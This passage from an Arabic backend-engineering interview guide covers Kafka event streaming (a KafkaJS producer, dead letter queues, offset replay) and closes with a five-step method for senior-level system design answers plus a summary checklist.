        KafkaTopic -->|Offset 101| Consumer2[Notification Worker: Sends SMS]
        KafkaTopic -->|Offset 101| Consumer3[Analytics Engine: Real-time Metrics]
    end
```

```javascript
// Kafka Producer in Node.js using KafkaJS
const { Kafka } = require('kafkajs');
const kafka = new Kafka({ clientId: 'store-app', brokers: ['kafka:9092'] });
const producer = kafka.producer();

async function publishOrderEvent(orderData) {
  await producer.connect();
  await producer.send({
    topic: 'order-events',
    messages: [
      { key: String(orderData.id), value: JSON.stringify({ event: 'ORDER_PLACED', data: orderData }) }
    ],
  });
}
```

#### مثال 1: التطبيق العملي — استخدام Kafka لمعالجة ملايين الأحداث في الذروة

في منصة التجارة، عند إطلاق موسم التخفيضات، يرسل المتجر 100,000 حدث/ثانية لـ Kafka. Kafka يتحمل الضغط العالي ويرتب الأحداث في Partitions بحسب `orderId` لضمان معالجة أحداث الطلب الواحد بالترتيب الصحيح.

#### مثال 2: فخ شائع — نسيان معالجة الـ Dead Letter Queue (DLQ) للأحداث التالفة

من الفخاخ عندما تطلب خدمة قراءة رسالة تحتوي على JSON مكسور أو Syntax Error! الـ Worker سيفشل وتتكرر إعادة المحاولة إلى المالانهاية معلقة الـ Queue! الصواب هو ضبط **Dead Letter Queue (DLQ)**: إذا فشلت قراءة الرسالة 3 مرات، تنقل تلقائياً لـ DLQ معزول لفحصها يدوياً واستمرار العمل.

#### مثال 3: حالة إنتاجية — إعادة بناء قواعد البيانات بالكامل عبر Kafka Offset Reset

في حال رغبة الفريق في تأسيس داتابيز تحليلية جديدة للمبيعات التاريخية، يستطيع المهندس إنشاء الخدمة الجديدة وضبط **Kafka Consumer Offset = 0**! تقرأ الخدمة كل أحداث المتجر من أول يوم تأسيس وتنشئ الداتابيز الجديدة بدقة مطلقة في ساعتين.

---

## Q100 — الخاتمة المعمارية: إزاي بتفكر كـ Senior Backend Architect لما تجيلك مسألة System Design من الصفر؟

### أصل الحكاية

وصلت الآن للسؤال النهائي المفضل في مقابلات الـ Senior & Lead Backend Engineers:
**"صمّم لي منصة مثل أبل أو أمازون أو متجر إلكتروني عملاق يستوعب 10 مليون مستخدم يومياً... إزاي بتبدأ التفكير وبترتب أفكارك المعمارية من الصفر؟"**

المهندس المبتدئ يقفز فوراً للكود وكتابة أسماء الإطارات (Docker, Redis, React).
أما **Senior Backend Architect** فيتبع منهجية تفكير قيادية منظمة بـ 5 خطوات صارمة:

1. **Clarify Requirements & Scope (تحديد المتطلبات والحدود)**:
   - Functional: ما هي الميزات الأساسية المطلوبة فوراً (Checkout, Catalog, Search) وما الميزات المستبعدة الآن؟
   - Non-Functional: ما هي المقاييس المطلوبة؟ (High Availability 99.99%? Low Latency < 100ms? Scale: 10M DAU, 10,000 QPS?).
2. **Back-of-the-Envelope Estimation (الحسابات التقديرية)**:
   - حساب حجم البيانات والـ Bandwidth والـ Storage المطلوب خلال 5 سنوات.
3. **High-Level System Architecture (الرسم المعماري العام)**:
   - رسم المكونات الرئيسية: Client -> CDN / WAF -> API Gateway -> Load Balancers -> Application Services -> Caching Layer -> Databases / Message Brokers.
4. **Deep Dive & Bottleneck Resolution (التعمق واستئصال نقاط الاختناق)**:
   - اختيار قواعد البيانات المناسبة (SQL vs NoSQL), استراتيجيات الـ Caching (Redis Cache-Aside), حماية المدفوعات (Idempotency Key + Redlock), الـ Event-Driven Scaling بـ Kafka, وضمان الـ Zero-Downtime.
5. **Trade-offs & Resilience Justification (تبرير المقايضات والأمان)**:
   - التحدث صراحة عن المقايضات (Trade-offs): "اخترنا CAP Theorem AP للتغذية العكسية لتوفير التوفرية وسامحنا بـ Eventual Consistency، ولكن اختارنا CP للمخزون لضمان الدقة الأتومية".

```mermaid
flowchart TD
    subgraph Grand Senior Architecture Blueprint
        Client[Mobile / Web Client] --> CDN[Cloudflare CDN / Static Assets]
        CDN --> WAF[WAF Shield & DDOS Protection]
        WAF --> Gateway[API Gateway Central Auth & Throttling]
        
        Gateway --> LB[Layer 7 Load Balancer Nginx]
        
        subgraph Scalable Stateless Microservices Cluster
            LB --> App1[Order Service Node.js]
            LB --> App2[Catalog Service Go]
            LB --> App3[Payment Service Java]
        end

        subgraph High-Performance Data & Caching Tier
            App1 & App2 --> Redis[(Redis Cluster Rate Limit & Cache)]
            App1 --> WriteDB[(PostgreSQL Primary Master 3NF)]
            App2 --> ReadDB[(Elasticsearch Read Cluster)]
            App1 --> Outbox[(Outbox Debezium CDC)] --> Kafka[Kafka Event Bus]
        end
        
        Kafka --> Workers[Async Workers Shipping & Email]
    end
```

#### مثال 1: التطبيق العملي — البدء البسيط والتوسع المنظم (Evolutionary Architecture)

في المقابلة، تثبت خبرتك بالقول: "في اليوم الأول بنبدأ بـ Modular Monolith بسيط مع PostgreSQL و Redis و Nginx على السحابة لتسليم القيمة بسرعة. وعندما يتجاوز الضغط 100k QPS، نفصل الخدمات تدريجياً لـ Event-Driven Microservices بدون تعقيد مبكر (No Premature Optimization)."

#### مثال 2: فخ شائع — القفز للمكعبات المعقدة بدون تبرير الاحتياج (Over-Architecture Trap)

من الفخاخ الكارثية في المقابلة اختيار Kubernetes, Saga, Kafka, Elasticsearch في أول دقيقة لبناء مدونة شخصية صغيرة! السينيور الحقيقي يبرر كل أداة صراحة بناءً على الأرقام والمقاييس التقديرية الحقيقية (Measurable Business Impact).

#### مثال 3: حالة إنتاجية — إثبات العقلية الإنتاجية بذكر الـ Reliability & Failure Modes

الفرق الحقيقي بين السينيور والمبتدئ هو أن **السينيور يصمم النظام مفترضاً أن كل شيء سيفشل (Design for Failure)!** فيشرح صراحة كيف سيحمى النظام بـ Circuit Breakers (Q84), و Graceful Shutdown (Q65), و Distributed Tracing (Q67), و Automatic Backups لضمان استقرار العمل بنسبة 99.99% مهما كانت ظروف السحابة.

---

> [!tip] Checkpoint نهائي شامل للملف (أساسيات الأنظمة الموزعة وتلخيص الـ 12 موديول)
> **مراجعة ختامية لمعمارية الأنظمة الموزعة والعقلية القيادية:**
> 1. **Distributed Transactions & Saga (Q93 & Q94)**: تجنب 2PC المقفل، واعتمد Saga Pattern مع Compensating Actions لإدارة المعاملات الموزعة بـ Eventual Consistency.
> 2. **Event Sourcing & CQRS (Q95 & Q96)**: استخدم Event Log كمصدر حقيقة مطلق لا يتغير، وافصل نماذج القراءة السريعة (Read Models) عن نماذج الكتابة (Write Models) لتحقيق أعلى أداء scaling.
> 3. **Outbox Pattern & API Gateway (Q97 & Q98)**: احمِ إرسال الأحداث بـ Transactional Outbox لمنع الفقد، واستخدم API Gateway كنقطة دخول وحماية موحدة للشبكة الداخلية.
> 4. **Event-Driven Architecture (Q99)**: استخدم RabbitMQ للـ Job Queues المتخصصة، واعتمد Apache Kafka لمجاري الأحداث عالية الأداء وتتبع السجلات.
> 5. **Senior Mindset (Q100)**: صمم الأنظمة بمنهجية منظمة تبدأ بالمتطلبات والحسابات، ثم الرسم المعماري وحل الاختناقات، وتبرير المقايضات بـ Design for Failure.
> 
> ---
> **تهانينا! لقد أتممت هذا الدليل المرجعي الشامل المعماري (Q1 → Q100) بنجاح. أنت الآن مجهز بأعلى درجات المعرفة النظرية والعملية لقيادة وتصميم أنظمة الـ Backend الحديثة والمتفوقة.**

---


